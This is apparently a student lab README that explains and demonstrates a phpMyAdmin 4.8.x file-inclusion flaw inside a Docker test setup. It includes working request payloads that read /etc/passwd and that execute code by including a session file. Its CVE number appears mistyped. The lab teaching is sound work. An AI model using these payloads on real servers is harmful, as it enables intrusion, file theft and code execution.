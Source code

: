 # Exploit Demo 

This guide will help you to install vulnerable component and perform the attack related to phpMyAdmin bug mentioned in [CVE-2018-1263](https://www.exploit-db.com/exploits/44928).

- [Description of CVE](#description-of-cve)
- [Why does the vulnerability exist](#why-does-the-vulnerability-exist)
- [How does the attack work](#how-does-the-attack-work)
- [How to install vulnerable component](#how-to-install-vulnerable-component)
- [How to perform the attack](#how-to-perform-the-attack)

## Description of CVE

This exploit is related to an issue which was discovered in phpMyAdmin version 4.8.x before 4.8.2. By exploiting the issue an attacker can perform remote code execution and local file inclusion on the server. The vulnerability is due to the portion of the code which is responsible for redirecting and loading pages within phpMyAdmin. The code has a faulty test for whitelisted pages which makes the attack possible.  An attacker must be authenticated, except in the "$cfg['AllowArbitraryServer'] = true" case (where an attacker can specify any host he/she is already in control of, and execute arbitrary code on phpMyAdmin) and the "$cfg['ServerDefault'] = 0" case (which bypasses the login requirement and runs the vulnerable code without any authentication).

## Why does the vulnerability exist

The vulnerability is caused by a validation bypass in the vulnerable path checking function. This vulnerability enables an authenticated remote attacker to execute arbitrary PHP code on the server.

There is a file inclusion in **index.php** of **phpMyAdmin** which can be triggered by providing a parameter named `target` in the URL and the portion of the code that validates the `target` parameter looks like the following
```php
$target_blacklist = array (
    'import.php', 'export.php'
);

// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
// ...
```
In this code once the if condition is satisfied it executes `include $_REQUEST['target'];`. So, we just need to bypass the if condition to execute what we want.

Let us look at the if condition

1. The first two conditions says target parameter cannot be empty and it needs to be string.
2. The third condition restricts the target parameter from starting with index.
3. The fourth condition restricts that the target parameter should not be in `$target_blacklist`
    * The `$target_blacklist` is defined just before the if condition and it includes **import.php** and **export.php** meaning anything except these two pages are allowed.
4. The fifth and final condition is a whitelist check for the page validity using an existing function in Core class `Core::checkPageValidity($_REQUEST['target'])`.
    * As shown in the code snippet below the function `checkPageValidity` strips everything behind `?` from `$page` and checks if it is in the whitelist. The string after `?` is not part of the URL path. A sample whitelist is also shown in the code snippet.
    ```php
    public static function checkPageValidity(&$page, array $whitelist = [])
    {
        // ...
        $_page = mb_substr($page, 0, mb_strpos($page . '?', '?'));
        // example $whitelist == array('db_sql.php', 'sql.php', ...)
        if (in_array($_page, $whitelist)) {
            return true;
        }
        // ...
        return false;
    } 
    ```
    * The important point to note here is that the attacker has the complete control of `$page`, since it comes directly from `$_REQUEST['target']`. 

## How does the attack work
As mentioned previously the attacker has full control on `$page` in the `checkPageValidity` function via the `$_REQUEST['target']` parameter in the URL. Lets imagine that the attacker sends something like the following using `$_REQUEST['target']` parameter to `$page`
```php
$page = 'db_sql.php?/../../../../../../../../etc/passwd'
```
The `checkPageValidity` function then performs the following

1. First it splits the string at `?` and assigns the first part to `$page`. So in this example case the value of `$page = db_sql.php`.
2. Next it checks if `$_page`, i.e. **db_sql.php**, is in whitelist or not? Since it is in the whitelist the function returns True and goes back to `index.php`

Since the if condition in `index.php` is now True it executes the following line as shown in the index.php code snippet above
```php
include $_REQUEST['target'];
```
What happens next is

*  The statement above includes the non-splitted value of `$_REQUEST['target']` which means the following gets executed 
    ```
    GET /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
    ```
* Since PHP magically converts path to **/../../../../../../../../etc/passwd** without checking whether `db_sql.php` exists or not, the **/../../../../../../../../etc/passwd** gets executed and the content of **/etc/passwd** file is sent in the response back to the attacker.

We can now use this to perform local file inclusion or even remote code execution to get a reverse shell back. Whenever we execute a query in phpMyAdmin, it creates a session file and stores in the /tmp directory with the query content. The session file named as sess_< SESSION ID >. The session ID can be easily found in the cookie using the inspect option of the browser.

So if we execute the following query in phpMyAdmin
```
SELECT '<?php phpinfo();exit;?>'
```

It will be stored in the session file. Lets imagine our session ID for the phpMyAdmin is `e15cffd3ab25a631136611fba9ca2042`

Then if we trigger the following address in the browser
```
http://your-ip:8080/index.php?target=db_sql.php?/../../../../../../../../tmp/sess_e15cffd3ab25a631136611fba9ca2042
```

Then phpMyAdmin will try to load the session page and since the page contains the php code provided through the query, the php code will be executed and in this particular example we will see phpinfo in the page loaded by the browser. Using this technique we can execute any arbitrary code on the remote server.

## How to install vulnerable component
The exploit infrastructure requires vulnerable version of phpMyAdmin and mysql. We will use docker containers to install the required components. For vulnerable version of phpMyAdmin we will use prebuilt docker environnement from [Vulhub](https://github.com/vulhub/vulhub) and for mysql we will use latest official version from [dockerhub](https://hub.docker.com/). The installation script is provided as a docker compose yml script which can be found in the repository. 

We assume that the intended machine has **docker** and **docker-compose** installed. If not then please refer to the docker [documentation](https://docs.docker.com/get-docker/) to install them. Once docker is installed, perform the following steps to setup the vulnerable component:

First clone the repository in your intended machine and navigate to the cloned directory
```bash
git clone git@gits-15.sys.kth.se:msnkhan/exploit-demo.git
cd exploit-demo
```
Then run the docker compose script using the following command
```bash
sudo docker-compose up -d
```
Once installation process is finished docker will expose phpMyAdmin page on port **8080** of your machine. You can check by opening the page in your browser using the following address format
```
http://your-machine-ip:8080
```
If the installation process is successful you should see a page like the following

![phpMyAdmin_homepage](https://drive.google.com/uc?id=1520feaCSqgFcZipBiBJ9xTvb850_omjO)


## How to perform the attack
The following video is a tutorial on how to perform the attack

**Video Link:** https://drive.google.com/file/d/1UbLGEwMYswdrRAOMJLd0mFHbsNl1aPvt/preview

## References
[1] https://www.exploit-db.com/exploits/44928

[2] https://github.com/vulhub/vulhub

[3] https://docs.docker.com/get-docker/

